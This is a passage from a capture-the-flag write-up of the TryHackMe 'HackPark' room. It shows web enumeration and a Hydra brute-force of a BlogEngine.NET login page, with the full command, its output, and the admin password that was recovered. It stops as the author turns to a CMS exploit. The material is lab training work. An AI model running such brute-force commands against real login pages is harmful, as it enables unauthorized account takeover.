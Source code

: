 ## Web Enumeration ⤵️

I checked port 80 and got this static page ⏩

![Image](Pasted%20image%2020240306130846.png)
_Hackpack port 80 default page_

This site also have Login page like this , lets brute force the credentials of user as admin through <mark style="background: #FF5582A6;">hydra</mark> Tool.

![Image](Pasted%20image%2020240306131047.png)
_Login Page_

```bash
┌──(kali㉿kali)-[~/Downloads/Tryhackme/HackPark]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.243.161 http-post-form "/Account/login.aspx:__VIEWSTATE=FzCsRc8EkRmVOlJaK4BrCc22v37pQRYKYl9sp3Wa8spzGnTbVNxjN0eAm6XDN3oId5ezqAblLqIgavb%2BfjJvTcc9JGk3ksHYi8Ui5LTKlDw1rogxSzAo8EV28ig444ylonIuTDCes9tJBg5udupb%2BwZi6dT4UzDyPQV7%2FEuUR986PP5N9oU%2FY4vRC2QW97z0tuld%2Fj2sbFZo8ymDXvK8AWAp0jp2ERs8ms2DdgbrdIL8udlt57h9uFR7vIwJKiokO93ueH4EP7RaR6LBywmoO6xeAibhNDmky%2BqYYcoXYsXYzhm9WTZPnhtXPZl6%2Bul0uOXaXBTW1uSIa4Y9Znxjuevfx%2F46fZCh44YJ1GmAh0j7kGgN&__EVENTVALIDATION=BwQY74fWIQeGyXXV%2FXpTnNf%2FJIjug2%2FIGIr8nghFc%2FLPw0mKSckKOAi%2FLR64SorH5bBoQUQgP1TYh4xu%2BeNVBRdot2xRSTeUsFDj%2FMqM0VWjtSqpEy%2Btco4PJXO%2FXezStG6f14RLlz%2BUAoUvUnUnQmjbGLsKAPsz5gzRza8dP5fWePWf&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Failed" -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-03-05 14:52:53
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://10.10.243.161:80/Account/login.aspx:__VIEWSTATE=FzCsRc8EkRmVOlJaK4BrCc22v37pQRYKYl9sp3Wa8spzGnTbVNxjN0eAm6XDN3oId5ezqAblLqIgavb%2BfjJvTcc9JGk3ksHYi8Ui5LTKlDw1rogxSzAo8EV28ig444ylonIuTDCes9tJBg5udupb%2BwZi6dT4UzDyPQV7%2FEuUR986PP5N9oU%2FY4vRC2QW97z0tuld%2Fj2sbFZo8ymDXvK8AWAp0jp2ERs8ms2DdgbrdIL8udlt57h9uFR7vIwJKiokO93ueH4EP7RaR6LBywmoO6xeAibhNDmky%2BqYYcoXYsXYzhm9WTZPnhtXPZl6%2Bul0uOXaXBTW1uSIa4Y9Znxjuevfx%2F46fZCh44YJ1GmAh0j7kGgN&__EVENTVALIDATION=BwQY74fWIQeGyXXV%2FXpTnNf%2FJIjug2%2FIGIr8nghFc%2FLPw0mKSckKOAi%2FLR64SorH5bBoQUQgP1TYh4xu%2BeNVBRdot2xRSTeUsFDj%2FMqM0VWjtSqpEy%2Btco4PJXO%2FXezStG6f14RLlz%2BUAoUvUnUnQmjbGLsKAPsz5gzRza8dP5fWePWf&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Failed
[STATUS] 219.00 tries/min, 219 tries in 00:01h, 14344180 to do in 1091:39h, 4 active
[STATUS] 231.33 tries/min, 694 tries in 00:03h, 14343705 to do in 1033:25h, 4 active
[80][http-post-form] host: 10.10.243.161   login: admin   password: 1qaz2wsx
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-03-05 14:59:18
```
{: .nolineno}
{: .nolineno}

I got this dashboard access as Administrator user 🔽

![Image](Pasted%20image%2020240306130730.png)
_Dashboard_
After reconnaissance I got an exploit related to the version of this CMS site <mark style="background: #FFB8EBA6;">BlogEngine.NET 3.3.x</mark> from inspecting the source code like this 🔻
